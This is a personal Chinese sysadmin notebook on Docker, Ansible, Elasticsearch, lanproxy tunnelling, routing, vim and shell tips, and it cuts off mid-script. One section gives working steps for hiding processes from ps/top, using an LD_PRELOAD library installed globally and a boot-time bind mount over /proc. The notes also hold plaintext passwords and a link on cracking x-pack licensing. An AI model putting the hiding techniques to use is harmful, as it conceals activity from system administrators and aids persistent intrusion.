6. ！！！！！更改数据库字符集，因为最后发现发布文章会有问题，所以提前在这里记录下。
   1. 其实在前面Dockerfilexxxx 也能改。。。

- `vim mysql/my.cnf`  

```bash
[mysqld]
user=root
character-set-server=utf8
lower_case_table_names=1

[client]
default-character-set=utf8
[mysql]
default-character-set=utf8

!includedir /etc/mysql/conf.d/
!includedir /etc/mysql/mysql.conf.d/
```

- `vim mysql/Dockerfile`  

```dockerfile
FROM mysql:5.7
COPY my.cnf /etc/mysql/my.cnf
```

- `docker build . -t mysql:5.7-utf8`  根据dockerfile 生成新镜像
- `docker tag mysql:5.7-utf8 192.168.226.134/ops/mysql:liuzel01_5.7-utf8`  
- `docker push 192.168.226.134/ops/mysql:liuzel01_5.7-utf8`  上传镜像到私仓
- `docker run -d -p 3306:3306 --name mysql -v /opt/mysql/mysql-data/:/var/lib/mysql -e MYSQL_DATABASE=myblog -e MYSQL_ROOT_PASSWORD=123456 192.168.226.134/mysql:5.7-utf8`  运行数据库

---

1. 启动 django

- `docker run -d -p 8002:8002 --name myblog_lzl -e MYSQL_HOST=172.17.0.4 -e MYSQL_USER=root -e MYSQL_PASSWD=123456  myblog:latest`  
- 如若不成功，注意你的运行docker环境的运存，不能太小

```bash
## migrate 迁移
$ docker exec -ti myblog bash
#/ python3 manage.py makemigrations
#/ python3 manage.py migrate
#/ python3 manage.py createsuperuser
## 创建超级用户
$ docker exec -ti myblog python3 manage.py createsuperuser
## 收集静态文件
## $ docker exec -ti myblog python3 manage.py collectstatic
```

2. 浏览器访问， 192.168.226.134:8002/admin

---

- `docker run --rm -it -p 81:80 --name=phptest --hostname phptest -v /home/liuzel01/dockerfiles/lzhrsip/test:/var/www/html -w /var/www/html phptest:latest php test.php`  

- 有两种方式，

1. 第一种，在本地直接以命令行启动测试用项目。这种是便于自己在本地调试，容器即删即用，下面来举个例子。

2. 第二种，写dockerfile,docker build成自定义的镜像，然后启动运行即可；还可以传给别人，方便别人运行项目。这种是方便将环境打包，把比如demo类的传输给别人，并直接运行

​    2.1 定制一个自己用的自定义镜像，比方说添加上某些功能

- FAQ：

1. 某些容器启动不了项目，优先检查dockerfile,dcoker logs container_name,确保无错误后；就要思考是不是镜像选用错了。

​    1.1 毕竟，单单php镜像就有 php-cli,php-fpm,php-apache 等好多

2. 容器的端口一定要全部开放
3. 只要你选对image 后，一切都是那么丝滑

# ansible 记录

1. `ansible centos_server -m ping `  在尝试连接过程中，会提示，**Permission denied (publickey,gssapi-keyex,gssapi-with-mic)** ，

- 修改 sshd_config 配置，增加，`PasswordAuthentication yes`

## ansible配置优化

##### 开启SSH长连接，

- `vim  /etc/ansible/ansible.cfg `   `ssh -V`   查看主机上ssh的版本，高于5.6则可以直接添加如下

```bash
[ssh_connection]
ssh_args = -o ControlMaster=auto -o ControlPersist=5d
```

- 表示设置整个长连接的保持时间，这里设置的是5天。
- 通过 `netstat | grep container`   能看到会有一个ESTABLISHED状态的连接一直与远端设备进行TCP连接


2. 如果要达到ssh长连接的目的，也可修改主机（控端/中控机）的sshd_config  配置，（没尝试）

```bash
ServerAliveInterval 30
ServerAliveCountMax 3
ControlMaster auto
ControlPath ~/.ssh/sockets/%r@%h-%p
ControlPersist 5d
```

---

##### 开启pipelining

- pipelining 也是openssh的一个特性，

1. ansible执行流程是这样的，	`▶ ansible centoslzl -m ping  -vvv`  结合命令来看更好看

- 基于调用的模块生成一个python脚本
- 将python复制到主机上
- 最后，在远端服务器上执行此python脚本

2. 同样是在 ansible.cfg  文件中，

```bash
[ssh_connection]	同样是此节点下
pipelining = True
```

3. 再次执行命令，能观察到打印出来的更少了，

- 少了一个PUT脚本和SFTP脚本去远端server的流程

##### ~~开启accelerate模式~~  

- 和SSH Multiplexing功能类似，accelerate 是使用python在远端server 运行一个守护进程，然后ansible通过这个守护进程监听的端口进行通信
- redhat官方目前不赞成使用accelerate模式，后面的版本中可能要被删除。:seedling:  

1. 需要中控机和远端server都安装 python-keyczar软件包

- `▶ ansible centoslzl -a 'yum install -y python-pyasn1 python python-crypto`  
- `  rpm -ivh ftp://ftp.ntua.gr/pub/linux/centos/7.8.2003/cloud/x86_64/openstack-queens/Packages/p/python-keyczar-0.71c-2.el7.noarch.rpm`  注意，这是centos7 的，如果是其他版本，需要自己识别
- 完成安装后，对 ansible.cfg 进行配置，

```
[accelerate]
accelerate_port = 5099
accelerate_timeout= 30
accelerate_connect_timeout= 5.0
```

##### 修改ansible执行策略

- 有个参数，默认值如下，修改修改成free  

```bash
# Ansible will use the 'linear' strategy but you may want to try another one.
#strategy = linear
strategy = free,	# 修改成free,
```

1. 默认值是linear,即按批次并行处理；  free 表示的是ansible会尽可能快的切入到下一个主机。所以在执行结果的task 显示顺序就不一样，也就可以理解了
2. playbook中的设置，

```bash
---
- hosts: all
   strategy: free
tasks:
...
```

##### 任务执行优化

- async，代表这个任务执行时间的上限值，即任务执行时间如果超出这个时间，则认为任务失败。
- 参数async未设置，则为同步执行。可以为执行时间非常长（有可能遭遇超时）的操作使用异步模式
- 为异步启动一个任务，可指定其最大超时时间以及轮询其状态的频率，如若没有为poll指定值，默认轮询频率10s

```bash
---
  - hosts: all
   remote_user: root
   tasks:
      - name: simulate long running op (15 sec), wait for up to 45 sec, poll every 5 sec
      command: /bin/sleep 15
      async: 45
      poll: 5
```

1. 有以下场景需要使用ansible的异步模式

- 某个tash需要运行很长时间，可能会达到ssh连接的timeout
- 没有任务是需要等待它才能完成的，即没有任务依赖此任务是否完成的状态
- 需要尽快返回当前shell的

2. 一些不适合使用异步模式的

- 这个任务需要运行完后，才能继续另外任务的
- **申请排他锁的任务（如yum）**  

##### 设置facts 缓存

- 在使用ansible-playbook 时，默认第一个task都是 GATHERING FACTS，表示 收集每台主机的facts信息，方便在playbook中直接引用facts里的信息。如若不需要facts的信息，可以在playbook 设置 

  `gather_facts: false`   提高playbook 效率

```bash
---
- hosts: 10.0.108.2
gather_facts: no
tasks:
...
```

- 也可以在 ansible.cfg  文件中添加如下配置，禁用facts采集

```bash
[defaults]
gathering = explicit
```

###### json文件缓存facts信息

###### redis缓存facts信息 

###### memcache缓存facts信息

- **未实践！！！**  

## ansible的日常维护使用

##### 利用ssh-agent提升ansible管控的安全性

- 可参考，[使用ssh和ssh-agent实现无密码登陆远程server](http://yysfire.github.io/linux/using-ssh-agent-with-ssh.html)，  

##### 配置ansible 变量环境

1. 编辑 /etc/profiles ，新增一行，`export ANSIBLE_CONFIG=/etc/ansible/ansible.cfg `  

2. 编辑 /etc/ansible/ansible.cfg  文件

```bash
[defaults]							# 此处只列出了defaults下的配置
inventory = /etc/ansible/hosts    	#主机列表配置文件
library = /usr/share/ansible/    	#库文件存放目录
remote_tmp = $HOME/.ansible/tmp   	#临时py命令文件存放在远程主机目录
local_tmp = $HOME/.ansible/tmp    	#本机的临时命令执行目录
forks = 50     						#默认并发数
sudo_user = root    				#设置默认执行命令的用户，root,可在playbook中重新指定该参数
# ask_sudo_pass = True    			#每次执行ansible命令是否询问ssh密码
# ask_pass = True
remote_port = 22    
# module_lang = C						#设置模块的语言
private_key_file = /root/.ssh/id_rsa	#设置中控机连接客户端的私有ssh-key文件位置
host_key_checking = False   		#检查对应服务器的host_key，建议取消注释，否则就得先一个一个主机连一次
timeout = 60						#设置ssh连接超时时间，单位s
log_path = /var/log/ansible.log   	#日志文件，也是建议取消注释
```

- 可参考，[ansible自动化运维体系在生产环境下实践](https://mp.weixin.qq.com/s?__biz=MjM5NTk0MTM1Mw==&mid=2650634947&idx=2&sn=6e7e72a60fba85ca7f044cd0a258c406&chksm=bef90445898e8d532b95b511810c19a116bf849b644b0fa0d4fa148fa8502e0cc81941225caf&scene=21#wechat_redirect)，  [语雀上ansible](https://www.yuque.com/liuzelin01/linux/linux-ansible#tMKYg)，  

---

##### 配置ansible客户端主机环境

1. 编辑  /etc/ansible/hosts 文件，按照如下格式添加控端

```
[业务系统名称代码_x86]
ip x.x.x.x
[业务系统名称代码_aix]
ip x.x.x.x
```

2. 这样可以区分不同业务系统，不同操作系统类别，

- `ansible 业务系统名称代码* -m module_name -a module_args`  
- `ansible 业务系统名称代码*_x86 -m module_name -a module_args `  

- `ansible *x86 -m module_name -a module_args `

##### 配置ansible ssh 通信

1. `ssh-keygen -t rsa `  ,生成ssh public 和 private key
   1. 在生成公钥时，可以输入密码， Enter passphrase (empty for no passphrase):    
   2. 后来远程的时候就输入这个密码而不是服务器登录密码了
2. for i in $ `cat /tmp/ansible_docker.txt`;do ssh-copy-id root@$i;done  ，也可以写进脚本执行
   1. ssh-copy-id -i ~/.ssh/id_rsa.pub 192.168.10.62  也可以这样，传输完成后，可以 ssh 192.168.10.62 实现远程
      1. 这种是因为，客户端这边的用户也恰好是root，如果是在win上这样就不得行（需向上面那种指定root@IP）。。不过你要是用alias 的话其实都好
      2. 再就是，**不要随便生成key，很容易让之前传输过公钥的服务器连不上** 

- 这个时候需要输入密码，来建立互信过程。。
- **应该可以在脚本中，自动写密码的！！！！**  

##### 常用模块

1. 建议命令，`ansible-doc file`  这里面的都是-a 中可以跟的相关选项，

- 创建文件符号链接，`ansible centoslzl -m file -a 'src=/etc/resolv.conf dest=/tmp/resolv.conf state=link'`  

2. copy：复制文件到远程主机，

- 将本地文件复制到客户端，`ansible centoslzl -m copy -a 'src=/etc/ansible/ansible.cfg dest=/tmp/ansible.cfg owner=root group=root mode=0644'`  

3. command：在远程主机执行命令，因为默认就是command,所以`ansible centoslzl -a 'date' `  
4. shell：参数与上相同，不过可以用管道
5. service,cron,yum,synchronize,user,group
6. `ansible all -a 'hostname' `  

---

##### ansible tower（企业级的ansible）

1. ansible,简单学习一下yaml语法，jinja2语法，能懂得python代码用于分析问题就行。

- 熟练掌握python的话，都不是问题，ansible的一切都可以通过python来解释。

## 演练

1. **开始吧，展示！！！**  


# 安装elasticsearch

## 安装单机版elasticsearch7.10.1

1. 因为低版本的elastic，在弄license授权的时候，不太好弄。创建密码时，总是提示证书不对，没授权。。。。
    https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-7.10.1-linux-x86_64.tar.gz
    https://artifacts.elastic.co/downloads/kibana/kibana-7.10.1-linux-x86_64.tar.gz
    https://artifacts.elastic.co/downloads/logstash/logstash-7.10.1-linux-x86_64.tar.gz
2. adduser es                               添加用户

    1. usermod -g root es

3. cd /es/elasticsearch-7.10.1/

    1. ./bin/elasticsearch &                启动后台运行

    2. ss -tlnp | grep 9200                 占用端口9200

    3. ulimit -Hn 显示131072，ulimit -Sn 显示65536

    4. vim config/jvm.options               修改配置文件
        -Xms3g
        -Xmx3g

    5. vim config/elasticsearch.yml

        ```yaml
        cluster.name: es-lzl
        node.name: "es-node1"
        cluster.initial_master_nodes: [ "es-node1" ]
        path.data: /es/elasticsearch-7.10.1/data
       path.logs: /es/elasticsearch-7.10.1/logs
        transport.tcp.port: 9300
        transport.tcp.compress: true
       http.port: 9200
       discovery.zen.minimum_master_nodes: 1
       network.host: 0.0.0.0
       xpack.security.enabled: true
        xpack.security.transport.ssl.enabled: true
        action.auto_create_index: .security,.monitoring*,.watches,.triggered_watches,.watcher-history*  
       ```
    
4. cd /es/kibana-7.10.1/

    1. ./bin/kibana -q &                    启动后台运行，或者-Q，-Q, --silent                     Prevent all logging

    2. ss -tlnp | grep 5601                 占用端口5601

    3. vim config/kibana.yml                修改配置文件
       
        ```yaml
        server.port: 5601
        server.host: "0.0.0.0"
        # elasticsearch.url: "http://192.168.10.27:9200"
        elasticsearch.hosts: [ "http://192.168.10.27:9200/" ]
        elasticsearch.requestTimeout: 90000
        elasticsearch.username: "kibana"
        elasticsearch.password: "siping123456"
        # 将kibana管理后台设置为中文显示
        i18n.locale: "zh-CN"
        ```

    4. curl -XDELETE http://localhost:9200/.kibana* 删除elastic里的索引

6. 参考，[elasticsearch6破解x-pack，设置密码并用head插件登录](https://www.cnblogs.com/xiaodai12138/p/12019213.html),


# golang

## 国内go get无法下载的问题，

- `go get github.com/joho/godotenv`  下载总是超时  i/o timeout,

1. 解决方法：

- 使用国内七牛云或是阿里云的镜像仓库，
- `go env -w GO111MODULE=on`  `go env -w GOPROXY=https://goproxy.cn,direct`  
- 再次使用go get就可以了

2. 参考，[golang 1.13解决go get无法下载](https://www.sunzhongwei.com/problem-of-domestic-go-get-unable-to-download?from=sidebar_new)，  https://github.com/goproxy/goproxy.cn

---

# 网络

## 内网穿透

- 了解一下
- lanproxy，代理，本质上是通过公网ip:端口，来访问到你的内网服务器上所映射端口，上的服务~
- 不过，client 和server端一定要能够互相通信才行

[可参考此](https://github.com/ffay/lanproxy#%E7%9B%B8%E5%85%B3%E5%9C%B0%E5%9D%80) 

- 目前，我是在xizang 所属服务器（或某云服务器）上搭建了Server 端；在内网linux（或本地虚拟机）搭建了Client端。通过`ssh root@221.236.26.67 -p 5222` 来远程到内网linux

- 再一个，Client端，是部署在了win10工作机上，mstsc远程目的机即可。此过程使用的是，服务端所属服务器上的带宽。此方法比向日葵要稳定些。


1. 比方说，以下，是我Server端（部署在公网服务器/云服务器）上的配置，proxy-server-0.1/conf/config.properties

```
 server.bind=0.0.0.0

# 与代理客户端通信端口
  server.port=14900  
# ssl相关配置
  server.ssl.enable=true
  server.ssl.bind=0.0.0.0
  server.ssl.port=14903
  server.ssl.jksPath=test.jks
  server.ssl.keyStorePassword=123456
  server.ssl.keyManagerPassword=123456
# 配置可忽略
  server.ssl.needsClientAuth=false
# WEB在线配置管理相关信息
  config.server.bind=0.0.0.0
  config.server.port=18090
  config.admin.username=admin
  config.admin.password=admin123
```

- 以下，是我client端（部署在内网服务器/目的机）的配置，proxy-client-0.1/conf/config.properties

```
# client.key=client
# 在Server-WEB端-添加客户端-生成随机秘钥后，填写进配置文件
  client.key=55154da57451494c9d81bad09f28416e
  ssl.enable=true
  ssl.jksPath=test.jks
  ssl.keyStorePassword=123456
# server.host=127.0.0.1
  server.host=221.236.26.67
# default ssl port is 4993
# 注意端口与服务端端口保持一致。 因为ssl.enable 都为true
  server.port=14903
```

1. 注意启动后，随时看日志，方便实时检查问题

2. 这是Server-WEB端截图

1. 客户端管理-客户端列表，注意“状态”一列，要为“在线”才可


---

***注：***

1. 用nginx配置反向代理，转发ssh服务。 使用stream模块，需要编译安装nginx时， --with-stream 

2. 本配置可参考，

```
# 需要stream 模块，要重新编译安装nginx
# stream {
# upstream ssh {
# server 221.236.26.67:52115;
# }
# 
# server {
#  listen 81;
#  proxy_pass ssh;
#  proxy_connect_timeout 1h;
#  proxy_timeout 1h;
# }
# }
```

##### 编写服务

- 编写到系统服务的话，可参考这样，

```bash
cat /usr/lib/systemd/system/proclient.service

[Unit]
Description = Run proclient jobs
After = default.target
DefaultDependencies = no

[Service]
Type = simple  # simple和forking其实没差，我这里测试的都是可以的。simple是 设置了ExecStart但未设置BusName时的默认值，ExexStart启动的进程为该服务主进程
User = root
Group = root
KillMode = control-group
ExecStart = /bin/bash /etc/init.d/proclient
# ExecStop = /bin/bash -c 'kill -9 $(ps -ef | grep proxy-client-0.1 | grep -v grep | awk '{print $2}')'
ExecReload = /bin/kill -s HUP $MAINPID
PrivateTmp = true
RemainAfterExit = yes
[Install]
WantedBy = multi-user.target

```

- ***<font color=red>再者，写到系统服务中，再enable，会发现和隐藏进程那里貌似有点冲突。。有待验证</font>*** 

## 路由

-   netstat -rn               查看到服务器路由表， Kernel IP routing table

    route add default gw 192.168.10.1   临时的

    cat /etc/sysconfig/static-routes    永久的，内容如下any net default gw 192.168.10.1

    systemctl restart network

1. `route -n `查看linux路由表，netstat -rn
   1. 如下，其意义和这句一样，


添加到主机的路由 `route add -host 192.168.10.1 dev eth0` 
   `route add -host 192.168.10.1 gw 192.168.10.1 `

2. 添加到网络的路由，`route add -net 192.168.10.0 netmask 255.255.255.0 gw 192.168.10.1` 
3. 添加默认路由，`route add default gw 192.168.10.1` 
上面有，添加永久的路由的方法
   在 /etc/rc.local 添加 route add 指令
   在 /etc/sysconfig/network 里添加  GATEWAY=gw-ip 或者 GATEWAY=gw-dev

4. 屏蔽一条路由，`route add -net 224.0.0.0 netmask 240.0.0.0 reject`
5. 删除和添加add 默认网关，`route del default gw 192.168.120.240`
6. route ，哪条在前面，哪条就有优先，前面都没有，就用最后一条default


# C7离线安装软件包

## 

- 在离线服务器内，无法连通网络（只能通过vpn连接到服务器，sftp传输文件），所以一般选择下载二进制包来安装，
  - centos上安装软件的一般方法：rpm工具（二进制包，需特别注意包的依赖关系），yum工具（能自动解决依赖，最常用），源码包（安装难度大），

1. 所以，`wget https://mirrors.tuna.tsinghua.edu.cn/mariadb//mariadb-10.4.6/bintar-linux-systemd-x86_64/mariadb-10.4.6-linux-systemd-x86_64.tar.gz`此次采用的是下载源码包，

2. 下载完了，创建软链接，


- 下载使用rpm包，安装软件

1. `rpm -ivh bison-3.0.4-2.el7.x86_64.rpm --nodeps --force`  `rpm -ivh ./*.rpm --nodeps --force`  软件包之间的依赖，强制安装上

- 离线安装bison

1. `wget http://rpmfind.net/linux/centos/7.9.2009/os/x86_64/Packages/bison-3.0.4-2.el7.x86_64.rpm` 

---

- 有时候，会报错，**报错，/lib/ld-linux.so.2: bad ELF interpreter问题**

1. 这是因为64位系统，安装了32位程序。很可能是因为用了公司的jdk，名为jdk-8u221-linux-i586.tar.gz
2. 解决：
   1. `yum install -y glibc.i686` 

# vim进阶

cat /etc/os-release ，linux发行版中都有此文件，可以通过 source 命令将文件中的K/V值引入到上下文中~

  source /etc/os-release; 

**if** [[ ${VERSION_ID} -ne 7 ]];**then**

1. 进阶

:1,$s/word1/word2/gc  " 从第一行到最后一行，全文替换，并出现确认提示
q + :    调出EX命令行历史

9dd           " 向下删除9行

ddp           " 将当前行下移一行

d1G / dgg  " 删除第一行到当前行的数据

d$     " 删除当前字符到行尾

d0     " 从行首删除到当前字符

nyy     " 从当前行开始复制 n 行

y1G / ygg  " 从第一行复制到当前行

yG     " 从当前行复制到最后一行

y0     " 从行首复制到当前字符

y$     " 从当前字符复制到行尾

p, P    " 黏贴，p 黏贴到光标下一行，P 黏贴到光标上一行
   P    在光标前黏贴的（shift+p）


进入insert模式，

i      在光标前，insert

I      在当前行最左第一个非空字符前进入insert

a      在光标后，insert

A      在当前行最右第一个非空字符前进入insert

s      删除光标下字符，并进入insert

S      删除当前行，并进入insert

o      光标下一行进入insert

O      光标上一行进入insert


r  " 替换单个字符，自动返回 normal 模式。省去了s 切换到insert模式，s可以删除光标下的字符然后，继续输入多个内容

R  " 连续替换多个字符，手动 <esc> 返回 normal 模式。省去了切换到insert模式再输入的步骤

```
ctrl+alt+v 可进入vim的visual模式
# vim的help要学会善用， :help ctrl-v
```


bing meiy shenm cuo ,zhishi ba ziji de weizhi baif de taizheng le ,zhengde wo ye youdian huanghu .xiangl ,

  wufei zhishi yiqi zhu de ren ,fentan fangzu bal ,zaijin yibu sihu ye bing meiy biyao ,ye butai xians .

  fanshi doudei zijiguo ,hebi qiangjia yu biegou .

- 在终端，ctrl + u撤销自己输入的内容，
  - ctrl + w 向前撤销一个单词
  - ctrl + a 回到行首
  - ctrl + e 回到行尾

---


# 技巧技巧 :medal_sports:  

## PC和手机快速文件传输

1. 使用python3的模块，`python3 -m http.server`   
2. 如果希望换个端口，`python3 -m http.server 1234 --bind 127.0.0.1`   绑定后就不能用本机ip访问
3. 可以不使用weixin等第三方工具，随时随地传

## chrome tools滚动截图（截长图）

- F12（或者快捷键Ctrl+Shift+i）调出开发者工具，快捷键Ctrl+Shift+p 召唤出工具箱，输入full（因为命令全称是，Capture full size screenshot）,ok然后就可以浏览器截图并保存到本地了~Capture node screenshot, 对单个节点（单个节点也是可以长屏）进行截图，当然首先要选中你需要截图的node

1. 涉及到隐私，就不贴截图了


- 或是要对某个设备上来个截图，F12，然后改成iPad Pro，右上角有三个点，Capture screenshot（找screenshot），可对此时设备（iPad Pro）进行截图

---

- 重启发起XHR请求，

1. F12，Network面板，选中其中一个请求，右键，用 "Replay XHR" 来重启发起请求，而不需要再填一次表单了

- 修改网站上的内容，

1. F12,Console,type this "document.body.contentEditable="true"", just try on ur website

- 快速调出需要的面板，

1. 快捷键，Ctrl+Shift+p, type this "show animations" OR "show coverage"

- 快速找到网页上的图片，

1. F12, Network, Img, u can see the pics, click right, copy-copy link address

## 针对前后端分离项目

- 一般的，后端使用spring-boot 的项目都打成了jar包，需要排查问题或是修改配置的时候，可以直接在服务器上进行解压和打包

1. 解压包，到同级下的meeting-stand目录下，`unzip meeting-standard.jar -d meeting`
2. 重新打包，`jar -cvfM0 meeting_lzl.jar meeting/`
3. 所以，如果是这种，则可以直接找到对应的文件，vim修改内容并保存退出

## 其他

1. `yay -S vnstat`   安装vnstat,监控网络流量

##### ssh持久化

1. ssh远程服务器，一会不操作了就会断开，要重连就很烦
   编辑配置文件，/etc/ssh/sshd_config

```bash
ClientAliveInterval 50      每50秒发送一次，然后客户端响应，这样就保持了长连接
ClientAliveCountMax 3       默认值3， 表示服务器发出请求后客户端没有响应的次数达到3，就自动断开
```

2. 终端搜索

ctrl+s 是向后搜索， 

不过c+s 会与某些终端停止响应的快捷键(说的就是Konsole)冲突，要先屏蔽掉

​	stty -ixon 写入到 /etc/bashrc（建议， ~/.zshrc，之后备份配置文件，只需要source ~/.zshrc就可以在新电脑搞定 ）

​	stty ixany(可以不执行)

[可参考](*https://stackoverflow.com/questions/791765/unable-to-forward-search-bash-history-similarly-as-with-ctrl-r*) 

之后，效果很明显

c-r 会显示： bck-i-search: xxx

c-s 会显示： fwd-i-search: xxx

3. 隐藏属性

chattr +i /etc/resolv.conf 防止文件被修改

chattr +a /etc/resolv.conf 文件只能追加数据，但不能删除。 适用于日志文件

赋予目录i 属性，则创建/删除文件提示： 权限不够。 不过可追加文件内容


## 同一ip+同一端口，访问不同项目

**另，有且只有一个域名可用。。。。。** 

此问题，可转化为： 在外部，通过两个二级域名（例如xxxx.sipingsososo.com:80），来访问内部不同的两个网站


- 现有两个二级域名，目标是：访问到两个内网网站。192.168.10.62:80  以及 192.168.10.28:80
- 还有一个防火墙（硬件），做公网IP映射

1. 首先，在域名管理网站，将二级域名指向公网ip，即多域名指向同一公网ip地址。如下图所示 （有的内网服务器，或因防火墙不支持直接指向）


- 在防火墙，将此公网ip指向，内网nginx服务器，例如192.168.10.62
- 10.62 此服务器负责nginx 转发。监听80端口，转发本地（及局域网内其他）的服务，以及另一台服务器10.28上的nginx(80端口)。大概如下图所示


- 因为10.28服务器上，也是有nginx，所以这相当于多层代理。

1. 使用了多层代理，需要将 gzip_http_version 1.0 配置开启，（默认是1.1，要注释掉并修改为1.0）否则gzip 配置不起作用
2. 配置如下图(在nginx.conf http{} 配置中添加，server头部上面)：

```conf
gzip on;
gzip_disable "msie6";
gzip_vary on;
gzip_static on;
gzip_proxied any;
gzip_comp_level 6;
gzip_buffers 16 8k;
#gzip_http_version 1.1;
gzip_http_version 1.0;
gzip_types text/plain text/css application/json application/x-javascript text/xml 
application/xml application/xml+rss text/javascript image/jpeg image/gif image/png image/jpg;
```

- 供参考

## 美化初始终端

1. 在网上看到lolcat，终端彩虹 效果，大多人是下面这样用的，
   1. fortune+cowsay+lolcat， 然后在终端欢迎页打出来彩虹效果的欢迎语，
   2. 项目[git地址](https://github.com/busyloop/lolcat) 
2. 以下记录为，在centos7 上使用lolcat，并使终端输出内容，并可选是否搭配lolcat

- 最终解决：

1. 安装暂且不提
2. 在文件 /etc/bashrc 中写入以下内容：（我在服务器上为root，所以就直接这么淦了，其他的视情况而定）

```shell
## usage?,Example: ls output is lol ls
lol()
{
    if [ -t 1 ]; then
        "$@" | lolcat
    else
        "$@"
    fi
}
# bind 'RETURN: "\e[1~lol \e[4~\n"'
COMMANDS=(cdls ls cat date)
for COMMAND in "${COMMANDS[@]}"; do
    alias "${COMMAND}=lol ${COMMAND}"
    alias ".${COMMAND}=$(which ${COMMAND})"
done
```

3. 也是用了循环，来遍历 COMMANDS 中的参数

4. 效果大概如下图所示，还是挺炫的哈


1. 但是吧，lolcat几处问题：`source /etc/profile` 后，会将环境覆盖调，例如ls 就无有效果了。 要 `source /etc/bashrc` 后才行
   1. 还有，~~写在 `/etc/bashrc`  中的函数 和我的cdls冲突，cdls不生效~~
   2. 多做几次尝试，取消cdls 的注释，可以了。lol() 针对的是${COMMOND} ，说到底也是对ls 命令而言，:wine_glass:
2. 参考，[redirecting all output to lolcat](https://stackoverflow.com/questions/59891025/redirecting-all-output-to-lolcat) 
4. ~~我也不懂，为什么每次xshell连接后，cdls并不会生效，还要 . /etc/bashrc 手动生效~~

## /etc/profile.d 妙用

- 在文件  /etc/profile  中，有这么一句  `for i in /etc/profile.d/*.sh /etc/profile.d/sh.local ; do`  ，可判断 /etc/profile.d/ 目录下的文件会仙贝执行
  - 这是我此目录下，一些文件，仅供参考


##### /etc/profile，/etc/bashrc，login shell， nologin shell 的区别

/etc/profile.d 此目录中的文件，同样可以分别设置环境变量，且方便维护，不需像 /etc/profile 还要改动文件。

  例如，见上面一节

之后，安装了新软件，就可直接修改此文件，而不需在多个地方重复添加

- /etc/profile 是交互式， /etc/bashrc 是非交互式，所以可知jenkins 上有的job需 `source /etc/profile`  方可正常运行

  同理，crontab 设置的定时任务启动的shell都是非login 的，因此也不会载入 /etc/profile 中的变量

可参考，[对linux的profile.d目录的使用](https://www.a-programmer.top/2018/06/21/Linux%E9%85%8D%E7%BD%AE%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7%E7%9A%84%E7%8E%AF%E5%A2%83%E5%8F%98%E9%87%8F%EF%BC%8Cprofile.d%E6%96%87%E4%BB%B6%E5%A4%B9%E7%9A%84%E4%BD%BF%E7%94%A8/)

## 隐藏进程-hideprocess

隐藏进程信息（ps，top）,

```
gcc -Wall -fPIC -shared -o libprocesshider.so processhider.c -ldl
ln -sf /opt/libprocesshider.so /usr/lib/
# echo /usr/lib/libprocesshider.so >> /etc/ld.so.conf.d/processhider.conf
OR echo "export LD_PRELOAD=/usr/lib/libprocesshider.so" >> /etc/profile
ldconfig 生效
```

1. 项目实例，`git clone https://github.com/gianlucaborello/libprocesshider.git` 

参考，[linux进程隐藏：中级篇](https://www.freebuf.com/articles/system/250714.html)
    [基于centos7创建隐藏进程以及发现隐藏进程](https://my.oschina.net/kcw/blog/3209387)
    [linux环境的LD_PRELOAD: 库预加载](https://rtoax.blog.csdn.net/article/details/108474167)
    [hiding linux processes for fun + profit](https://sysdig.com/blog/hiding-linux-processes-for-fun-and-profit/)
    [应急响应系列值linux库文件劫持技术分析](https://cloud.tencent.com/developer/article/1582075)
    [应急响应之linux下进程隐藏](https://www.anquanke.com/post/id/226285)
    [警惕利用linux预加载型恶意动态链接库的后门](https://www.freebuf.com/column/162604.html)， 有必要好好看看研究一下

##### 挂载

- 这里提供一个思路，可以通过[挂载来实现](https://unix.stackexchange.com/questions/280860/how-to-hide-a-specific-process)

1. mkdir -p xxxx/.empty/dir
   1. mount -o bind xxxxxx/.empty/dir /proc/42
2. 根据实际调整，mount -o bind xxxxxx/.empty/dir /proc/$(ps -ef | grep proxy-server | grep -v grep |awk '{print $2}')  
   1. 最后加入 /etc/rc.local （不推荐，~~写成服务，或是在/etc/init.d/某xxxx.sh）实现开机自动完成~~。因为每次重启后pid就会变化，所以都要进行重新挂载
   2. 实现后，想要./stop.sh 也做不到了，只有先 umount /proc/42  再./stop.sh 或kill掉pid
3. 在 /etc/rc.local/proclient  文件内容如下类似。 [关于自启动脚本不运行的问题](https://serverfault.com/questions/119351/init-d-script-not-working-but-the-command-works-if-i-execute-it-in-the-cons),

```bash
#!/bin/sh
#
# proxy - this script starts and stops the proxy client
#
# chkconfig: 2345 99 15
# description:  proclient is start proxy after boot,ys
# processname: proclient

source /etc/profile
/bin/bash  /home/lzl/lanproxy/distribution/proxy-client-0.1/bin/startup.sh &>/dev/null        &&\
    sleep 10                                                                                &&\
    mount -o bind /.empty/dir/ /proc/$(ps -ef | grep proxy-client | grep -v grep |awk '{print $2}')
```

4. 重启测试成功<font color=orange>**~**</font>

5. 实际效果（如果隐藏的是server端，可以查看端口是否启用来判断）：


## 关于欢迎页面的动态呈现

- 照例简单解释下，
  1. linux 设置登录前后的欢迎信息，奇技淫巧 :laughing: 
  2. /etc/issue 本地登录显示的信息。 本地登录前
     1. \r  和\m的意思，通过 `man pam_issue` 可得知
  3. /etc/issue.net 网络登录显示的信息。 登陆后显示，需要由sshd配置
  4. /etc/motd 常用于通告信息，如计划关机时间的警告等。 登陆后的提示信息
     1. message of the day， 即每次用户登录时，motd文件的内容会显示在用户终端
  5. 这三文件暂且不表，主要看 motd 的更改

##### 尝试配置

以下是我服务器上的尝试配置，

- 要运行脚本的话，同样可利用 /etc/profile.d/ 新建motd.sh ，

- 目录结构如下，


1. /etc/profile.d/motd/siping.py 文件内容，类似如下(供参考，长宽比貌似不是很协调)

```python
import cv2
import matplotlib.pyplot as plt
import numpy as np
#先定义颜色和对应的16进制值
based = range(0,16)
based_palette = [
    "%02x" %l    #转为16进制
    for l in based
]

colored = [0] + [0x5f + 40 * n for n in range(0, 5)]    #array combined [0, 95, 135, 175, 215, 255]
colored_palette = [
    "%02x%02x%02x" % (r, g, b)    #转为16进制
    for r in colored
    for g in colored
    for b in colored
]

grayscale = [0x08 + 10 * n for n in range(0, 24)]
grayscale_palette = [
    "%02x%02x%02x" % (a, a, a)
    for a in grayscale 
]

color_256 = based_palette + colored_palette + grayscale_palette 
#生成一个字典
color_dict={color:i for (i,color) in enumerate(color_256)}
#color_dict={}
#for index,name in enumerate(color_256):
#    color_dict[name]=index

#首先定义函数，利用颜色字典将RGB颜色转换为真彩对应数值
def cvtrgb(rgb,color_dict):
    xx=''
    #根据上面生成的颜色字典来，对于不同取值区间赋予不同的值
    for i in range(3):
        if rgb[i]<95:
